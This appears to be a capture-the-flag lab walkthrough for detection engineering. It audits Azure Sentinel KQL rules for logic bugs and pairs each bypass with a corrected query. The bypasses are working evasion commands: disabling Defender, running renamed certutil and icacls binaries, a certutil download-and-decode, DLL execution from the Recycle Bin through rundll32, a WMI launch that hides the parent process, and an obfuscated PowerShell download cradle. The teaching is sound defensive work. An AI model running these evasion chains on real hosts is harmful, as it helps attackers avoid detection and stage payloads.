# Challenge 1, Host atomics (lab VM / Sysmon validation)


Alrighty, this lab walkthrough in your VM will model activity post initial access, where the staging and detonation of files is done so in a particular way to abuse detection logic bugs. I really hope you guys take your time to look at the rules and see where these detection logic bugs are, because that is what you will be doing in the capture the flag. You will be finding the bugs and hunting for the abuse in the logs I provide.

In this lab, we will be assessing rules, running atomics and seeing how they show up in the logs. I have also provided an alternative tool in case you have logging issues.

**Notes:**  This isn't realistic, as other rules and EDR would pick it up these atomics. The purpose is to look at the detection logic and see the false negatives of the rules at question. Not all hosts have EDR. Not all SIEMs are updated. Assume its one of those clients.. The findings and lessons are still useful.

**This document** This document is to generate the data. The rule review for the detection logic bugs is in another markdown called challenge-1-rule-review.md

**Scenario:** User compromise. You have a standard account without defender and want to start staging resources post exploitation, but you want to do it in a way that demonstrates how detection logic bugs can be connected.

---

## Set up Scenario

### 1. Open defender
```powershell
Start-Process windowsdefender:
```



### 2. disable real-time protection



### 3. check it's disabled




```powershell
Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus | Select RealTimeProtectionEnabled, IsTamperProtected
```



### 4. Confirm Sysmon is logging, alternative pathway if not.

```powershell
Get-Service Sysmon* | Select Name,Status
```


#### (optional) Make sure the time is sync'd.
```powershell
tzutil /g
w32tm /stripchart /computer:time.windows.com /samples:3 /dataonly
w32tm /resync /force
[DateTime]::UtcNow
```

### 5. Setup standard user account, if you don't have one.

If you don't have a standard user account, make one. We don't want to use a priviledged account for this as that's not the scenario.
> Add the standard user. Pick your own password if you're worried.

```powershell
New-LocalUser -Name "lab1" -Password (ConvertTo-SecureString "b@dP@wd" -AsPlainText -Force) -FullName "lab1" -Description "Lab user"
Add-LocalGroupMember -Group "Users" -Member "lab1"
```
> Mirror a stand users access.

Usually a user account will have an existing bin, so to get the VM ready you should ensure that `lab1` ACL is working for it's own bin. Users can usually write to their own bin.

```powershell
$sid = (Get-LocalUser -Name "lab1").SID.Value
$bin = "C:\`$Recycle.Bin\$sid"
New-Item -ItemType Directory -Force -Path $bin | Out-Null
icacls $bin /grant "${sid}:(OI)(CI)F"
```
### 6. Now open a powershell terminal as your user


```powershell
runas /user:lab1 powershell
```



Now you are ready to start!

## Mine Bugs, Emulate, & Verify

> Quick Start: Applying ADE to Detection Rules

We are going to first have a quick read of the quick start guide. Here: https://adeframework.org/docs?file=docs/getting-started/quick-start.md

For each of the below, we will follow the steps:

1. Identify Rule Scope
2. Understand Detection Logic
3. Run the Bug Likelihood Test
4. Identify Specific Bugs
5. Test Bypasses.
6. Document Findings.
7. Implement Fixes.

Now, in this workshop, the emphasis is on 1 - 5, because you need to be able to understand the taxonomy and verify bypasses. That's the most important part.

---


### Rule 1: [imProcess_Certutil-LOLBins.yaml](https://github.com/Azure/Azure-Sentinel/blob/master/Hunting%20Queries/ASimProcess/imProcess_Certutil-LOLBins.yaml)


> Original KQL
```sql
query: |
  imProcessCreate
  | where Process has "certutil.exe"
  // Uncomment the next line and add your commandLine Whitelisted/ignore terms.For example "urlcache"
  // | where CommandLine !contains ("urlcache") 
  | extend HostCustomEntity = Dvc, AccountCustomEntity = User
```

### ADE assessment (very high level)

Note: If you use [ADEskills](https://github.com/Adversarial-Detection-Engineering/adeskills/tree/main)you will automate this process.

> **1. Identify Rule Scope**

This rule captures Certutil activities as it may indicate command and control. Specifically T1105, Ingress Tool Transfer. Adversaries may transfer tools or other files from an external system into a compromised environment.

> **2. Understand Detection Logic**

**1. What fields are being checked?**

`Process`

**2. What conditions must be met?**

`Process` must have the string `certutil.exe`

**3. What Boolean logic is used (AND/OR/NOT)?**

None without comments. If uncommented, uses `NOT`.

**4. What is the query actually doing?**

It is filtering on process creation events where the `Process` has to have 'certutil.exe`. Then adding fields to output with existing data.

> **3. Run the Bug Likelihood Test**


**1. Is there string matching on attacker-controlled fields?**

Yes. `Process` is taken from the executable name, and the executable can be renamed.

**2. Are there alternative methods/binaries omitted?**

No. The scope is specific to certutil, so alternatives are not considered in scope of the rule.

*However*, there are alternative file types. The logic includes `.exe` but omits `.com`. 

**3. Are there OS/version-specific assumptions?**

For the parameters in certutil, yes, but the rule scope doesn't concern with parameters.

**4. Does it rely on process names without additional checks, such as hashes or original file names?**

**Yes!**. The `Process` field is mutable, so it could be renamed and `Process` would be different.

**5. Are there time-based constraints?**

No.

**Multiple NOT clauses that could be simplified?**

No.

> **4. Identify Specific Bugs**

Candidates:
- Renaming a copy of `certutil.exe` to `certutil.com`
- Renaming a copy of `certutil.exe` to `foo.exe`

> **5. Test Bypasses.**

### Detection logic bugs, ADE3-01 Process Cloning

Now we have some candidate bugs, we now emulate to see if they can be abused to bypass detection.

The rule matches on the process *name* `certutil.exe`, so the renamed `svc_update.exe`

> **1. Prep the variables to use**




```powershell
$sid = (whoami /user /fo csv | ConvertFrom-Csv).SID; $bin = 'C:\$Recycle.Bin\' + $sid; $raw = 'https://nikolasbielski.github.io/files\' ; $bin
```

> **2. Drop the renamed signed certutil into the bin: ADE3-01 Process Cloning.**


```powershell
Copy-Item C:\Windows\system32\certutil.exe "$bin\svc_update.exe" -Force
```



If you want to experiment with the file type ADE bug, then you can add

```powershell
Copy-Item C:\Windows\system32\certutil.exe "$bin\certutil.com" -Force
```

> **3. Re-label the bin**

Re-label the bin to Medium integrity the sysadmin‑misconfig step. Without this, anything run from the Low‑integrity bin runs Low and can't write (No‑Write‑Up):

```powershell
icacls "$bin" /setintegritylevel "(OI)(CI)M" /t
```
**Bonus.** Given what you know about ADE bug types, is there a way you can think of that avoids icalcs monitoring if its not using original file name?

- Microsoft Sentinel: No specific SIEM rule for icalcs. 
- Splunk: https://research.splunk.com/endpoint/c76b796c-27e1-4520-91c4-4a58695c749e/
- Elastic: https://detection.fyi/elastic/detection-rules/windows/defense_evasion_modify_ownership_os_files/
- Sigma: https://github.com/SigmaHQ/sigma/blob/master/rules-threat-hunting/windows/process_creation/proc_creation_win_susp_file_permission_modifications.yml
- Why it's important to monitor: https://feed.craftedsignal.io/briefs/2024-01-icacls-access-rights-modification/

Expand below to see.
<details><summary>A common pattern is arising?</summary>

```powershell
Copy-Item C:\Windows\System32\icacls.exe "$env:TEMP\icalculated.com" -Force
```

Then run it.

```powershell
& $env:TEMP\icalculated.com "$bin" /setintegritylevel "(OI)(CI)M" /t
```

Here is it successfully running as `icalculated.com` and `certutil.com`



</details>


### Test the logic, did it catch it?

```sql
Sysmon()
| where Computer == "your-computername"
| where EventID == 1             // Sysmon ProcessCreate (imProcessCreate == EID 1)
| where Image has "certutil.exe"          // ADE3-01 bug: matches the NAME, not OriginalFileName
// Uncomment and add CommandLine whitelist/ignore terms, e.g. "urlcache":
// | where CommandLine !contains "urlcache"
| extend HostCustomEntity = Computer, AccountCustomEntity = User
```

> **This would?**
```sql
Sysmon()
| where Computer == "your-computername"
| where EventID == 1
| where OriginalFileName =~ "CertUtil.exe"
| extend HostCustomEntity = Computer, AccountCustomEntity = User
```

Note the differences. The OriginalFileName picks up the activity.

But... have you seen [OFND](https://adversarial-detection-engineering.github.io/ofndb/gotchas/)? `OriginalFileName` can be spoofed. So, all concerning the SIEM rule logic, SIEM rules should pair `OriginalFileName` with signature status and signer.  A renamed but unmodified signed binary keeps a valid signature and its real signer, so only `OriginalFileName` catches it... a spoofed `OriginalFileName` value breaks the signature, so the False Negative risk should be captured and mitigated with another security control. Each check covers the other's false negative, and makes sure false negative risk is mapped and mitigated in our detection strategies.

Now.. context is developed, so let's carry it forward into the next step.


### Rule 2: [Certutil-Download-Abuse.yaml](https://github.com/Azure/Azure-Sentinel/blob/f6cc4352c34b84d781735967808cfc953376e7f2/Solutions/Endpoint%20Threat%20Protection%20Essentials/Analytic%20Rules/Certutil-Download-Abuse.yaml)


```sql
query: |
  imProcessCreate
  | where Process endswith "certutil.exe"
  | where CommandLine has_any ("-urlcache","-verifyctl","-decode","-decodehex")
  | where CommandLine has_any ("http://","https://","ftp://")
  | extend HostCustomEntity = Dvc, AccountCustomEntity = User
```

### ADE assessment

Note: If you use [ADEskills](https://github.com/Adversarial-Detection-Engineering/adeskills/tree/main) you will automate this process.

> **1. Identify Rule Scope**

This rule is the *tighter, modern* certutil rule. It captures certutil being used to download or decode payloads.  T1105 Ingress Tool Transfer and T1140 Deobfuscate/Decode Files. Unlike Rule 1 it also looks at the certutil switches *and* requires a URL in the command line, so it is scoped to a certutil **network fetch**.

> **2. Understand Detection Logic**

**1. What fields are being checked?**

`Process` (Image name) and `CommandLine`.

**2. What conditions must be met?**

All three groups must be true: `Process` ends with `certutil.exe`, **and** `CommandLine` has one of `-urlcache` / `-verifyctl` / `-decode` / `-decodehex`, **and** `CommandLine` has one of `http://` / `https://` / `ftp://`.

**3. What Boolean logic is used (AND/OR/NOT)?**

`name AND action AND url`. Each group is an OR of its terms.

**4. What is the query actually doing?**

It is filtering process creation events to certutil invocations that both use a download/decode switch *and* carry a URL in the command line. i.e. it assumes certutil is reaching out over the network.

> **3. Run the Bug Likelihood Test**


**1. Is there string matching on attacker-controlled fields?**

Yes. It matches on the `Process` name (renameable) and on literal `CommandLine` substrings.

**2. Are there alternative methods/binaries omitted?**

**Yes!** The required-URL clause omits the alternative *data source/location*: a `-decode` of a file **already on disk** has no URL, so is not considered. The rule assumes a network fetch. This is **ADE2-04 (omit alternative locations / assumes inline-or-remote source)**.

**3. Are there OS/version-specific assumptions?**

No.

**4. Does it rely on process names without additional checks, such as hashes or original file names?**

**Yes!** Same as Rule 1. `\certutil.exe` name match with no `OriginalFileName`/hash check, so a rename bypasses it. This is **ADE3-01 Process Cloning**.

**5. Are there time-based constraints?**

No.

**Multiple NOT clauses that could be simplified?**

No.

> **4. Identify Specific Bugs**

Candidates:
- **ADE3-01**, the renamed `svc_update.exe` never matches `\certutil.exe`.
- **ADE2-04**, a local `-decode` of `upd.b64` (no `http/https/ftp` in the command line) never satisfies the required-URL clause. This is the "even the good rule fails twice" case.

> **5. Test Bypasses.**

Stage the base64 blob:
```powershell
& "$bin\svc_update.exe" -urlcache "$raw/upd.b64" delete 2>$null; & "$bin\svc_update.exe" -urlcache -f "$raw/upd.b64" "$bin\upd.b64"
```



ADE3-01 Process cloning from earlier is now stacked up the next rule being chained on the process name being certutil.exe, as relies on the `certutil.exe` name *and* requires an `http/https/ftp` URL in the command line, so the renamed binary (and the local `-decode` in step 3) miss it.

### Test the logic, did it catch it?

```sql
Sysmon()
| where Computer == "your-computername"
| where EventID == 1
| where Image endswith "certutil.exe"                               // ADE3-01: name, not OriginalFileName
| where CommandLine has_any ("-urlcache","-verifyctl","-decode","-decodehex")
| where CommandLine has_any ("http://","https://","ftp://")         
| extend HostCustomEntity = Computer, AccountCustomEntity = User
```

> **This would?**
```sql
Sysmon()
| where EventID == 1
| where OriginalFileName =~ "CertUtil.exe"                          // beats the rename (ADE3-01)
| where CommandLine has_any ("-urlcache","-verifyctl","-decode","-decodehex") 
| extend HostCustomEntity = Computer, AccountCustomEntity = User
```

## 3. ADE3‑01, renamed certutil decodes in the bin

> **Detection bug it bypasses, ADE3-01:** [imProcess_Certutil-LOLBins.yaml](https://github.com/Azure/Azure-Sentinel/blob/master/Hunting%20Queries/ASimProcess/imProcess_Certutil-LOLBins.yaml), the renamed `svc_update.exe` running `-decode` never matches the rule's process-name check on `certutil.exe`. (Full assessment for this rule is under **Rule 1** above.)
```powershell
& "$bin\svc_update.exe" -decode "$bin\upd.b64" "$bin\p.dll"; (Get-Item "$bin\p.dll").Length
```



or

```powershell
& "$bin\certutil.com" -decode "$bin\upd.b64" "$bin\p.dll"; (Get-Item "$bin\p.dll").Length
```


## 4. ADE2‑03, rundll32 runs the DLL from the modern Recycle Bin

> **Detection bug it bypasses, ADE2-03 (Locations):** [imProcess_malware_in_recyclebin.yaml](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/ASimProcess/imProcess_malware_in_recyclebin.yaml), it matches only the legacy `recycler` path string, not the modern `$Recycle.Bin`.

> Original KQL (ASIM form, the Sigma port is in `malware_in_recyclebin_ade2-03.yml`)
```sql
query: |
  imProcessCreate
  | where Process has_any ("cmd.exe","ftp.exe","schtasks.exe","powershell.exe","rundll32.exe","regsvr32.exe","msiexec.exe")
  | where CommandLine has "recycler"
  | extend HostCustomEntity = Dvc, AccountCustomEntity = User
```

### ADE assessment (very high level)

Note: If you use [ADEskills](https://github.com/Adversarial-Detection-Engineering/adeskills/tree/main) you will automate this process.

> **1. Identify Rule Scope**

This rule captures listed LOLBins executing content out of the Recycle Bin, defense evasion / hide artifacts, T1564.001 (note that, ) The intent is "a living-off-the-land binary is running something out of the bin."

> **2. Understand Detection Logic**

**1. What fields are being checked?**

`Process` (Image name) and `CommandLine`.

**2. What conditions must be met?**

`Process` is one of `cmd` / `ftp` / `schtasks` / `powershell` / `rundll32` / `regsvr32` / `msiexec`, **and** `CommandLine` contains `recycler`.

**3. What Boolean logic is used (AND/OR/NOT)?**

`procs AND location`. Each group is an OR of its terms.

**4. What is the query actually doing?**

It flags one of the listed binaries whose command line references the legacy `recycler` path.

> **3. Run the Bug Likelihood Test**


**1. Is there string matching on attacker-controlled fields?**

Yes. The location match is a literal substring (`recycler`) on the attacker-controlled `CommandLine`.

**2. Are there alternative methods/binaries omitted?**

Yes. The proc list omits `mshta` / `wscript` / `cscript` / `bitsadmin` / `certutil` (**ADE2-01**). In our chain this doesn't save us, we use `rundll32`, which *is* listed, so the location bug is the one that matters.

**3. Are there OS/version-specific assumptions?**

**Yes!** `recycler` is the pre-Vista/XP layout. Modern Windows uses `C:\$Recycle.Bin\<SID>\…`. The rule assumes the legacy path and never matches the modern one. This is **ADE2-03 (Locations)**.

**4. Does it rely on process names without additional checks, such as hashes or original file names?**

Yes (name list, mutable), but the decisive bug here is the location string, not the name.

**5. Are there time-based constraints?**

No.

**Multiple NOT clauses that could be simplified?**

No.

> **4. Identify Specific Bugs**

Candidates:
- **ADE2-03**, a payload under `C:\$Recycle.Bin\<SID>\…` never matches the legacy `recycler` substring.
- (latent **ADE2-01**, a binary outside the proc list, e.g. `mshta`, would also miss; not exercised here.)

> **5. Test Bypasses.**

```powershell
rundll32.exe "$bin\p.dll,Start"
```

### Test the logic, did it catch it?

```sql
Sysmon()
| where Computer == "your-computername"
| where EventID == 1
| where Image has_any ("cmd.exe","ftp.exe","schtasks.exe","powershell.exe","rundll32.exe","regsvr32.exe","msiexec.exe")
| where CommandLine has "recycler"                        // ADE2-03: legacy path only
| extend HostCustomEntity = Computer, AccountCustomEntity = User
```

> **This would?**
```sql
Sysmon()
| where EventID == 1
| where Image has_any ("cmd.exe","ftp.exe","schtasks.exe","powershell.exe","rundll32.exe","regsvr32.exe","msiexec.exe")
| where CommandLine has_any ("recycler","$Recycle.Bin")   // covers the modern bin layout too
| extend HostCustomEntity = Computer, AccountCustomEntity = User
```

Note the differences. Adding the modern `$Recycle.Bin` path to the location match surfaces the rundll32 execution the legacy-only substring misses.

## Optional

1.2, launder the parent via WMI (parent becomes WmiPrvSE.exe; run *instead* of step 3):
```powershell
Invoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{ CommandLine = "`"$bin\svc_update.exe`" -decode `"$bin\upd.b64`" `"$bin\p.dll`"" }
```

then, rerun rundll32.exe - it will open default browser and rick roll.
```powershell
rundll32.exe "$bin\p.dll,Start"
```



1.5, split‑string PowerShell cradle (needs your own benign listener at `<C2>`):

> **Detection bug it bypasses, ADE1-01 (Substring):** [imProcess_powershell_downloads.yaml](https://github.com/Azure/Azure-Sentinel/blob/master/Hunting%20Queries/ASimProcess/imProcess_powershell_downloads.yaml), it matches literal tokens like `Net.WebClient`/`DownloadFile`/`http:`, all broken up by string concatenation in the cradle.

> Original KQL (ASIM form, the Sigma port is in `powershell_downloads_ade1-01.yml`)
```sql
query: |
  imProcessCreate
  | where Process has_any ("powershell.exe","powershell_ise.exe")
  | where CommandLine has_any ("Net.WebClient","DownloadFile","Invoke-WebRequest","Invoke-Shellcode","http:","https:")
  | extend HostCustomEntity = Dvc, AccountCustomEntity = User
```

### ADE assessment (very high level)

Note: If you use [ADEskills](https://github.com/Adversarial-Detection-Engineering/adeskills/tree/main)you will automate this process.

> **1. Identify Rule Scope**

This rule captures PowerShell download cradles, T1059.001 PowerShell plus command-and-control / ingress. The intent is "PowerShell is pulling something down."

> **2. Understand Detection Logic**

**1. What fields are being checked?**

`Process` (Image name) and `CommandLine`.

**2. What conditions must be met?**

`Process` is `powershell.exe` or `powershell_ise.exe`, **and** `CommandLine` contains one of the literal tokens `Net.WebClient` / `DownloadFile` / `Invoke-WebRequest` / `Invoke-Shellcode` / `http:` / `https:`.

**3. What Boolean logic is used (AND/OR/NOT)?**

`ps AND tokens`. The token group is an OR of literals.

**4. What is the query actually doing?**

It flags a PowerShell command line that *literally* contains any of the listed download tokens.

> **3. Run the Bug Likelihood Test**


**1. Is there string matching on attacker-controlled fields?**

**Yes!** It is a literal substring match on the fully attacker-controlled `CommandLine`. An attacker can break the tokens up with concatenation. This is **ADE1-01 (Substring / concatenation)**.

**2. Are there alternative methods/binaries omitted?**

Yes. The token list omits `iwr`/`irm` aliases, `DownloadString`, BITS (`Start-BitsTransfer`), etc. (**ADE2-01**). The process list omits `pwsh.exe` (PowerShell 7) (**ADE2-02**).

**3. Are there OS/version-specific assumptions?**

Yes, omitting `pwsh.exe` assumes Windows PowerShell only and misses PowerShell 7. This is **ADE2-02**.

**4. Does it rely on process names without additional checks, such as hashes or original file names?**

Yes (the `powershell*` name), but the decisive bug here is the literal substring matching.

**5. Are there time-based constraints?**

No.

**Multiple NOT clauses that could be simplified?**

No.

> **4. Identify Specific Bugs**

Candidates:
- **ADE1-01**, `'Net.We'+'bClient'`, `'Down'+'loadFile'`, `'ht'+'tp:'` concatenation breaks every literal token.
- **ADE2-01**, alternative download methods (`iwr`/`irm`/`DownloadString`/BITS) are not in the list.
- **ADE2-02**, `pwsh.exe` is omitted from the process list.

> **5. Test Bypasses.**

```powershell
powershell -nop -w hidden -c "`$a='Net.We'+'bClient';`$w=New-Object (`$a);`$m='Down'+'loadFile';`$u='htt'+'ps://nikolasbielski.github.io/files/upd.b64';`$o=`$env:TEMP+'\downloaded.exe';`$w.`$m(`$u,`$o);Get-Item `$o | Select-Object Name,Length,LastWriteTime,FullName"
```

### Test the logic, did it catch it?

```sql
Sysmon()
| where Computer == "your-computername"
| where EventID == 1
| where Image has_any ("powershell.exe","powershell_ise.exe")      // ADE2-02: no pwsh.exe
| where CommandLine has_any ("Net.WebClient","DownloadFile","Invoke-WebRequest","Invoke-Shellcode","http:","https:")   // ADE1-01: literal tokens
| extend HostCustomEntity = Computer, AccountCustomEntity = User
```

> **This would? (better, though substring matching is never fully robust)**
```sql
Sysmon()
| where EventID == 1
| where Image has_any ("powershell.exe","powershell_ise.exe","pwsh.exe")      // ADE2-02 closed
// collapse quotes and + concatenation before matching (blunts ADE1-01):
| extend NormCmd = replace_string(replace_string(CommandLine, "'", ""), "+", "")
| where NormCmd has_any ("Net.WebClient","DownloadFile","DownloadString","Invoke-WebRequest","iwr","irm","Invoke-Shellcode","Start-BitsTransfer","http","https")   // ADE2-01 broadened
| extend HostCustomEntity = Computer, AccountCustomEntity = User
```

Note the differences. Normalising away the concatenation reassembles `Net.WebClient`/`DownloadFile`, adding `pwsh.exe` closes the version gap, and broadening the method list covers alternate download verbs. Substring logic is still brittle, AMSI / script-block logging and behavioural detection are the real fix.


## Cleanup and retry with alternatives you want to test?
```powershell
Remove-LocalUser -Name "lab1"
Get-CimInstance Win32_UserProfile | Where-Object { $_.LocalPath -eq "C:\Users\lab1" } | Remove-CimInstance
```


```powershell
Set-MpPreference -DisableRealtimeMonitoring $false
```
Then re‑enable **Tamper Protection** in the Windows Security GUI,


## Appendix, fires vs misses on the malicious rows

| Rule | On the Ch1 attack row it… | Why |
|------|---------------------------|-----|
| imProcess_Certutil-LOLBins | misses | `certutil.exe` name vs `svc_update.exe` |
| Certutil-Download-Abuse | misses (×2) | rename + requires URL, but `-decode` is local-file |
| WindowsBinariesLolbinsRenamed | **fires** | OriginalFileName=`CertUtil.exe`, Image≠LOLBAS |
| imProcess_base64_encoded_pefile | misses | b64 is a staged file, not in cmdline |
| imProcess_malware_in_recyclebin | misses | legacy `recycler` vs `$Recycle.Bin` |
| WindowsBinariesExecutedfromNon-DefaultDirectory | **fires** | rundll32 from `C:\$Recycle.Bin\…` (non-default) |
| inProcess_SignedBinaryProxyExecutionRundll32 | **fires** | bare `rundll32.exe` match |
| imProcess_powershell_downloads | misses | split strings vs literal `has_any` |
| NewChildProcessOfW3WP | misses | Step 0 spawns no child process |
| COMEventSystemLoadingNewDLL | misses | scoped to `svchost.exe`, not `w3wp.exe` |
| imProcess_uncommon_processes / ProcessEntropy | **fires** (surfaces) | rarity/entropy of `svc_update.exe` |
